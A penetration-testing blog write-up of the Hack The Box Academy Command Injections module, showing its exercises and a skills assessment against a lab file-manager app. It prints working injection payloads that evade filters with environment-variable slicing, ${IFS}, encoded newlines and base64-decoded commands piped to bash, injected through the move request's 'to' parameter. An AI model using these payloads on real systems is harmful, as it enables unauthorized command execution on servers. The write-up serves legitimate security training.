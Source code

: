 ```yaml
---
layout: post
title:  "Hack The Box - Academy - Command Injections"
description: "Master command injection techniques with Hack The Box - Academy - Command Injections. Learn how to exploit vulnerable web applications and improve your penetration testing skills with expert insights from Zwarts Sec."
date:   2024-10-19 13:32
image:  /images/htb/command-injection/logo.png
tags:   [command-injection,cbbh]
categories: [htbacademy]
---
```


>
<b>Links:</b>
<br/>
<a href="https://academy.hackthebox.com/module/109/section/1031">Command Injection</a><br/>
<a href="https://jacozwarts.github.io/images/htb/command-injection/Command_Injections_Module_Cheat_Sheet.pdf">Command Injection - Cheat Sheet</a><br/>
<a href="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-without-space">PayloadsAllTheThings - Command Injection - Bypass without Space</a>

<hr/>

### Bypassing Other Blacklisted Characters - Exercises
#### Use what you learned in this section to find name of the user in the '/home' folder. What user did you find?
A gotcha I ran into was I didn't add a `space` between the `;` and command I'm waas trying to execute e.g.
`Incorrect payload: 127.0.0.1${LS_COLORS:10:1}$(rev<<<'imaohw')` <br/><br/>
`Correct payload with a encoded \n (%0a)`
```
127.0.0.1${LS_COLORS:10:1}%0a$(rev<<<'imaohw')
```
![Bypassing other blacklisted characters exercise gotcha](/images/htb/command-injection/bypassing-other-blacklisted-characters-gotcha.png)

#### Final payload:
Initially, I tried the following command but didn't retrieve the user in `/home`: `127.0.0.1${LS_COLORS:10:1}%0a{ls,-la}%0a${PATH:0:1}home`. The issue stemmed from using the encoded newline character (`%0a`) immediately after `{ls,-la}`, which caused the command to execute incorrectly.

`Correct payload:`
```
127.0.0.1${LS_COLORS:10:1}%0a{ls,-la}${IFS}${PATH:0:1}home
```
<hr/>

### Bypassing Blacklisted Commands
#### Use what you learned in this section find the content of flag.txt in the home folder of the user you previously found.
```
127.0.0.1${LS_COLORS:10:1}%0a$(rev<<<'tac')${IFS}${PATH:0:1}home${PATH:0:1}1nj3c70r${PATH:0:1}flag.txt
```
<hr/>

### Advanced Command Obfuscation

#### Exercise: Can you test the below command to see if it works on your Linux VM, and then try to avoid using filtered characters to get it working on the web application?
`$(a="WhOaMi";printf %s "${a,,}")`<br/><br/>
First, we tested individual characters to identify which ones were filtered, such as the semicolon (`;`), space, pipe (`|`), ampersand (`&`), etc. In our case, all of these characters were blocked except for the newline character (`%0a`). To proceed, we needed to modify our payload to avoid using these filtered characters. Another solution is to `Base64 encode` the payload to bypass the filtering<br/><br/>

**Updated command without Base64 encoding:**
```
127.0.0.1%0a$(a="WhOaMi"%0aprintf${IFS}%s${IFS}"${a,,}")
```
**Updated command with Base64 encoding:**
```
127.0.0.1%0abash<<<$(base64%09-d<<<JChhPSJXaE9hTWkiO3ByaW50ZiAlcyAiJHthLCx9Iik=)
```

#### Find the output of the following command using one of the techniques you learned in this section: find /usr/share/ | grep root | grep mysql | tail -n 1
**Execute the below command to base64 encode the payload:**
```
echo -n "find /usr/share/ | grep root | grep mysql | tail -n 1" | base64
```

```
127.0.0.1127.0.0.1%0abash<<<$(base64%09-d<<<ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDE=)
```
<hr/>

## Skills Assessment
><b>Overview:</b>
You are contracted to perform a penetration test for a company, and through your pentest, you stumble upon an interesting file manager web application. As file managers tend to execute system commands, you are interested in testing for command injection vulnerabilities.
<br/><br/>
Use the various techniques presented in this module to detect a command injection vulnerability and then exploit it, evading any filters in place.

### What is the content of '/flag.txt'?
Start by opening the target in your browser and ensure Burp Suite is intercepting all requests. Log in with the provided credentials: `guest:guest`.
![Login](/images/htb/command-injection/command-injection-skills-assessment-login.png)

Upon examining the target’s features, I identified the following functionalities:
- File Manager
![File Manager](/images/htb/command-injection/command-injection-skills-assessment-file-manager.png)
- Search Functionality
![Search Functionality](/images/htb/command-injection/command-injection-skills-assessment-search.png)
- Advanced Search
![Advanced Search Functionality](/images/htb/command-injection/command-injection-skills-assessment-advanced-search.png)
- View File
![View File](/images/htb/command-injection/command-injection-skills-assessment-view-file.png)
- Move File
![Move File](/images/htb/command-injection/command-injection-skills-assessment-move-file.png)
- Direct Link
![Search Functionality](/images/htb/command-injection/command-injection-skills-assessment-direct-link.png)
- Download File
![Search Functionality](/images/htb/command-injection/command-injection-skills-assessment-download-file.png)

I then intercepted and analyzed these features’ requests through Burp Suite, where I observed that each request has varying parameters, such as:

```
GET /index.php?to=&view=51459716.txt&quickView=1
```
```
GET /index.php?to=&from=51459716.txt
```
```
GET /index.php?to=&dl=51459716.txt
```
```
POST /index.php?to=

...

ajax=true&content=514&path=.&type=search
```
```
GET /index.php?to=&from=605311066.txt
```
```
GET /index.php?to=&from=605311066.txt&finish=1&move=1
```
### Testing for Command Injection
Let’s start by testing these parameters for potential command injection.

By adding the payloads to the `to` and `from` parameters of the `"Move File"` request, we can observe the responses. The next step is to identify which injection operators are allowed. You can use the handy command injection cheat sheet to test various operators.

![Testing To Parameter](/images/htb/command-injection/command-injection-skills-assessment-move-file-to-parameter.png)

![Testing From Parameter](/images/htb/command-injection/command-injection-skills-assessment-move-file-from-paramter.png)

![Testing Operator](/images/htb/command-injection/comman-injection-skills-assessment-injection-operators.png)

I discovered that the operator `%26%26` is accepted. Based on the error message, it’s clear the server is using the mv command.
![Valid Operator](/images/htb/command-injection/command-injection-skills-assessment-valid-injection-operator.png)
### Command Injection Payload
```
%26%26whoami
```
![Whoami Command is blocked](/images/htb/command-injection/command-injection-skills-assessment-whoami-blocked.png)

Since whoami is blocked, I’ll encode it using base64. Here’s how to encode the whoami command:

```
echo -n "whoami" | base64
```
**Then replace the space character with a tab (%09):**
```
bash<<<$(base64%09-d<<<"d2hvYW1p")
```
When running this, I encountered the error: missing destination. So, I’ll apply the payload in the to parameter as follows:
![Missing Destination](/images/htb/command-injection/command-injection-skills-assessment-missing-destination-error.png)

```
/index.php?to=tmp%26%26bash<<<$(base64%09-d<<<"d2hvYW1p")&from=696212415.txt&finish=1&move=1
```
### Gotcha:
Once you move a file, it cannot be moved again. To get around this, you’ll need to change the filename in the `from` parameter.

![Whoami Result](/images/htb/command-injection/command-injection-skills-assessment-whoami-result.png)

Now that we’ve successfully executed the `whoami` command, the next goal is to read the directory contents using `ls -la`. First, base64 encode the command:

```
echo -n "ls -la" | base64
```

```
bash<<<$(base64%09-d<<<"bHMgLWxh")
```
Update the `from` filename from `696212415.txt` to `787113764.txt` and rerun the payload.

![Read files in directory](/images/htb/command-injection/command-injection-skills-assessment-read-files-result.png)

### Reading the flag.txt File
Finally, let’s try to read the `flag.txt` file. Base64 encode the following:
```
echo -n "cat ${PATH:0:1}flag.txt" | base64
```
```
bash<<<$(base64%09-d<<<"Y2F0IC9mbGFnLnR4dA==")
```

![Reading flag.txt content](/images/htb/command-injection/command-injection-skills-assessment-flag-result.png)
<hr/>